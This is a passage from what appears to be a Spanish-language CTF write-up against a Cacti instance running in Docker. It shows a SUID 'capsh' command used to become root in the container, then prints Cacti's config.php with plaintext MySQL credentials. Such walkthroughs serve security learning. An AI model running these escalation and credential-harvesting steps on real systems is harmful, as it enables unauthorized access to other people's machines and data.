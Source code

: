 Realizaremos el comando que se nos indicaba para realizar la explotación, comprobamos finalmente que nos hemos podido convertir en usuario `root` del contenedor de Docker.

```bash
www-data@50bca5e748b0:/tmp$ /sbin/capsh --gid=0 --uid=0 --
root@50bca5e748b0:/tmp# 
```

### SQL Enumeration

Realizando una enumeración de archivos en el directorio `/var/www/html/include`, nos encontramos con el archivo `config.php` el cual contiene las credenciales en texto plano para acceder al `MySQL`.

```bash
root@50bca5e748b0:/var/www/html/include# cat config.php 
<?php
/*
 +-------------------------------------------------------------------------+
 | Copyright (C) 2004-2020 The Cacti Group                                 |
 |                                                                         |
 | This program is free software; you can redistribute it and/or           |
 | modify it under the terms of the GNU General Public License             |
 | as published by the Free Software Foundation; either version 2          |
 | of the License, or (at your option) any later version.                  |
 |                                                                         |
 | This program is distributed in the hope that it will be useful,         |
 | but WITHOUT ANY WARRANTY; without even the implied warranty of          |
 | MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the           |
 | GNU General Public License for more details.                            |
 +-------------------------------------------------------------------------+
 | Cacti: The Complete RRDtool-based Graphing Solution                     |
 +-------------------------------------------------------------------------+
 | This code is designed, written, and maintained by the Cacti Group. See  |
 | about.php and/or the AUTHORS file for specific developer information.   |
 +-------------------------------------------------------------------------+
 | http://www.cacti.net/                                                   |
 +-------------------------------------------------------------------------+
*/

/*
 * Make sure these values reflect your actual database/host/user/password
 */

$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'db';
$database_username = 'root';
$database_password = 'root';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;
```
